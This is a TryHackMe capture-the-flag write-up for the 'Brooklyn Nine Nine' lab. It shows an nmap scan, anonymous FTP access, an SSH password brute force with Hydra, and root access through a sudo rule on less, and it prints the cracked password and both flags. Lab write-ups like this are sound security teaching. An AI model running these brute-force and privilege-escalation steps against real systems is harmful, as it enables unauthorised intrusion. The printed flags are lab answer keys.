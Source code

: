 ## Brooklyn Nine Nine - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/brooklynninenine)

<i>This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.</i>

**IP: 10.10.66.96**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Brute Force <br>

**Tools Used**: Nmap, Hydra<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap, I also ran Gobuster but it didn't find anything useful.

  ```
  nmap -sC -sV -T5 -p- 10.10.66.96

  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.8.120.52
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 3
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
  |   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
  |_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Site doesn't have a title (text/html).
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- Since port 21 is open and allows Anonymous access let's get inside and download all necessary files.

  ```
  ftp 1.10.66.96
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> pwd
  Remote directory: /
  ftp> ls
  229 Entering Extended Passive Mode (|||42102|)
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
  226 Directory send OK.
  ftp> get note_to_jake.txt
  local: note_to_jake.txt remote: note_to_jake.txt
  229 Entering Extended Passive Mode (|||51690|)
  150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
  100% |************************************************************************|   119      203.52 KiB/s    00:00 ETA
  226 Transfer complete.
  119 bytes received in 00:00 (2.48 KiB/s)
  ```
  
- After reading the note we can see that one user is using weak credentials which means brute forcing will pay out.

  ```
  cat note_to_jake.txt 
  From Amy,
  
  Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
  ```

  ```
  hydra -l jake -P /rockyou.txt 10.10.66.96 ssh      
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-12 13:36:41
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
  [DATA] attacking ssh://10.10.66.96:22/
  [22][ssh] host: 10.10.66.96   login: jake   password: 987654321
  1 of 1 target successfully completed, 1 valid password found
  [WARNING] Writing restore file because 2 final worker threads did not complete until end.
  [ERROR] 2 targets did not resolve or could not be connected
  [ERROR] 0 target did not complete
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-12 13:36:44
  ```

- Beautiful, let's now login with SSH and get those flags!

---

## 🧍 User Privilege Escalation

- As always, user flag is already there.

  ```
  jake@10.10.66.96's password: 
  Last login: Tue May 26 08:56:58 2020
  jake@brookly_nine_nine:~$ whoami
  jake
  
  jake@brookly_nine_nine:~$ id
  uid=1000(jake) gid=1000(jake) groups=1000(jake)
  
  jake@brookly_nine_nine:/home$ cd holt
  jake@brookly_nine_nine:/home/holt$ ls -al
  total 48
  drwxr-xr-x 6 holt holt 4096 May 26  2020 .
  drwxr-xr-x 5 root root 4096 May 18  2020 ..
  -rw------- 1 holt holt   18 May 26  2020 .bash_history
  -rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
  -rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
  drwx------ 2 holt holt 4096 May 18  2020 .cache
  drwx------ 3 holt holt 4096 May 18  2020 .gnupg
  drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
  -rw-r--r-- 1 holt holt  807 May 17  2020 .profile
  drwx------ 2 holt holt 4096 May 18  2020 .ssh
  -rw------- 1 root root  110 May 18  2020 nano.save
  -rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
  
  jake@brookly_nine_nine:/home/holt$ cat user.txt 
  ee11cbb19052e40b07aac0ca060c23ee
  ```
  
- Moving to escalation.

---

## 👑 Root Privilege Escalation

- This one wasn't hard as well, when you run `sudo -l` you will see it with your own eyes.

  ```
  jake@brookly_nine_nine:/home/holt$ sudo -l
  Matching Defaults entries for jake on brookly_nine_nine:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User jake may run the following commands on brookly_nine_nine:
      (ALL) NOPASSWD: /usr/bin/less
      
  jake@brookly_nine_nine:/home/holt$ sudo less /root/root.txt
  
  -- Creator : Fsociety2006 --
  Congratulations in rooting Brooklyn Nine Nine
  Here is the flag: 63a9f0ea7bb98050796b649e85481845
  
  Enjoy!!
  ```
  
- We will meet in the next one, bye! 

---

## 🏁 Flags

- **User Flag**: `ee11cbb19052e40b07aac0ca060c23ee`
- **Root Flag**: `63a9f0ea7bb98050796b649e85481845`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Pretty basic room tho.`

- What did I learn?
  `Nothing new, just sharpening my skillzzzzz.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
